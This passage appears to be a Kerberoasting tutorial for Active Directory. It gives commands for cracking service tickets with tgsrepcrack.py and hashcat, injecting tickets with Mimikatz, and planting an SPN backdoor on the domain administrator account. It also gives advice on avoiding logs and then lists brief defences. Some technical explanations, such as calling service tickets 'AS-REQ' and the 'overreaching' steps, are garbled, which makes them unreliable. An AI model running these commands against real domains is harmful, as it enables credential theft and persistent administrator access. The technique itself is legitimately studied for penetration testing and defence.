

## Service Ticket Bruteforcing

### Using tgsrepcrack.py Script

> Download link: https://github.com/nidem/kerberoast.git

`tgsrepcrack.py` is a Kerberoasting tool written in Python that can be used to crack the hash values of Kerberos pre-authentication tickets (AS-REQ) to obtain the plaintext password or hash value of an account.

> python tgsrepcrack.py <dictionary> <exported service ticket>

```
┌──(root㉿kali)-[/opt/kerberoast-master]
└─# python3 tgsrepcrack.py wordlist /tmp/8-40a10000-machao@MSSQLSvc\~sqlserver.sectest.com-SECTEST.COM.kirbi 
```




### Using Hashcat Tool

Using Hashcat to crack hashes.

```
┌──(root💀kali)-[/tmp]
└─# hashcat  -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```



## Service Ticket Overreaching and Injection

Service Ticket Overreaching (STO) is an attack technique that exploits vulnerabilities in the Kerberos protocol. It allows an attacker to convert a regular user ticket (TGT) into a service ticket (TGS), which can then be used to access services or systems in Active Directory. This enables attackers to access sensitive resources, gain domain administrator privileges, or carry out other malicious activities.

The STO attack can be broken down into the following steps:

1. Obtain a regular user ticket (TGT): The attacker needs to obtain a regular user's TGT to use its encrypted session key to construct a service ticket.
2. Construct a service ticket (TGS): The attacker uses the encrypted session key from the TGT to construct a service ticket (TGS) and sends it to the target system for authentication.
3. Authenticate the service ticket (TGS): The target system authenticates the received service ticket, granting the attacker access to the service.

The STO attack can bypass security mechanisms in the Kerberos protocol, allowing attackers to access sensitive resources. This attack technique is difficult to detect, and therefore preventing STO requires attention to the security configuration of the Kerberos protocol, as well as monitoring and filtering of network traffic using security measures such as firewalls and IDS.

The following are the steps to perform Service Ticket Overreaching using `kerberoast.py`:

1. Obtain attacker privileges: Obtain administrator or Domain Admin privileges on the target system to perform the STO attack.

2. Enumerate SPNs: Use tools such as Rubeus, GetUserSPNs, or BloodHound to enumerate SPNs in Active Directory and save them to a file.

3. Obtain TGS: Use the `kerberoast.py` tool to obtain a Kerberos pre-authentication ticket (AS-REQ) for the specified SPN that can be hunted in Active Directory and convert it to a service ticket (TGS) to bypass Kerberos authentication. For example, use the following command to obtain a service ticket for the account with the SPN MSSQLSvc/sqlserver.sectest.com:

   ```
   python kerberoast.py -spn MSSQLSvc/sqlserver.sectest.com
   ```

   After executing the command, the tool will automatically obtain the AS-REQ ticket that can be hunted in Active Directory and convert it to a service ticket (TGS), outputting it to the screen or saving it to a file. For example, save the service ticket to the file tgs.txt:

   ```
   python kerberoast.py -spn MSSQLSvc/sqlserver.sectest.com > tgs.txt
   ```

4. Inject the service ticket: Use Mimikatz or other tools to inject the service ticket into the target system. For example, use the following command to use Mimikatz to inject the service ticket into the current process:

   ```
   mimikatz.exe "kerberos::ptt /ticket:tgs.txt"
   ```

   After executing the command, the service ticket will be injected into the ticket cache of the current process, bypassing Kerberos authentication and obtaining system or domain administrator privileges.

Note that STO generates Kerberos TGS tickets on the target system, so attackers should minimize the number and frequency of STO attacks to avoid leaving suspicious logs and traces on the target system. Also, since Kerberos hash values can be brute-forced offline, it is recommended to use strong passwords when generating Kerberos TGS tickets to increase the difficulty of cracking and enhance system security. Attackers should use high-strength password dictionaries and cracking tools to increase the success rate of cracking hash values.

## AES Encryption

> On the management server, go to **Local Group Policy Editor** > **Computer Configuration** > **Windows Settings** > **Security Settings** > **Local Policies** > **Security Options** > **Network security: Configure Kerberos encryption types allowed** > **Enable RC4**.
>
> Run the `gpupdate /force` command in an elevated command prompt to ensure that the changes have been made.

Although both sides support AES encryption, a TGS ticket encrypted with RC4 (encryption type `0x17/23`) is still returned. Note that SOC may be monitoring tickets encrypted with RC4.


## Kerberoast Backdoor

Register an SPN service with administrative privileges.

```
Set-DomainObject -Identity sectest.com\administrator -Set @{serviceprincipalname="a/b"}
Get-DomainUser -Identity sectest.com\administrator | Get-DomainSPNTicket
```


Clearing SPNs:

```sql
Set-DomainObject -Identity sectest.com\administrator -clear serviceprincipalname
```


## Preventive Measures against Kerberoast Attacks

1. Enforce AES256_HMAC encryption for Kerberos tickets.
2. Strengthen password policies: Kerberoast attacks are mainly based on brute-forcing passwords, so strengthening password policies can effectively reduce the success rate of attacks. It is recommended to use long, complex, random passwords and to periodically change and force updates to passwords.
3. Disable unnecessary accounts and services: Disabling or restricting accounts and services that do not require pre-authentication can effectively reduce the risk of Kerberoast attacks. These accounts and services typically include IIS, Exchange, SQL Server, SharePoint, and others.

**When conducting log audits, it is recommended to focus on the time when ID 4769 (request for Kerberos service tickets) is recorded. If there are too many 4769 logs, further investigation should be carried out to determine if there is malicious behavior in the system.**



